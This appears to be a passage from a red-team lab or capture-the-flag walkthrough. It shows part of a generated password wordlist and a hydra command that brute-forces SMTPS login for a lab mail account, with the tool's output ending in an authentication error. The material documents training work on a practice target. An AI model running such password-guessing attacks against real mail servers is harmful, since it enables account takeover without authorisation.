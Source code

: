 generated list 
```
...
 5221  @Vestibulum99
  5222  @vehicula99
  5223  @placerat99
  5224  @venenatis99
  5225  @eleifend99
  5226  @Technology99
  5227  @Consultant99
  5228  @thmredteam99
  5229  @Professional99
  5230  @interdum99
  5231  @condimentum99
  5232  @pellentesque99
  5233  @fringilla99
  5234  @volutpat99
  5235  @tincidunt99
  5236  @Maecenas99
  5237  @lobortis99
  5238  @facilisis99
  5239  @pulvinar99
  5240  @dignissim99
  5241  @Suspendisse99
  5242  @Facebook99
  5243  @maecenas99
  5244  @voluptate99
  5245  @Introducing99
  5246  @Categories99
  5247  @pharetra99
  5248  @Curabitur99
  5249  @consequat99
  5250  @ultricies99

```

then attack stmp using the wordlist
```bash
wordlist=dict.lst
rhost=10.10.208.218
user=pittman@clinic.thmredteam.com
hydra -l $user -P $wordlist smtps://$rhost -s 465 -v


+ wordlist=dict.lst
+ rhost=10.10.208.218
+ user=pittman@clinic.thmredteam.com
+ hydra -l pittman@clinic.thmredteam.com -P dict.lst smtps://10.10.208.218 -s 465 -v -t 4 -T 4
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-22 12:41:46
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 4 tasks per 1 server, overall 4 tasks, 5250 login tries (l:1/p:5250), ~1313 tries per task
[DATA] attacking smtps://10.10.208.218:465/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[ERROR] SMTP LOGIN AUTH, either this auth is disabled or server is not using auth: 454 4.7.0 Temporary authentication failure: Connection lost to authentication server
```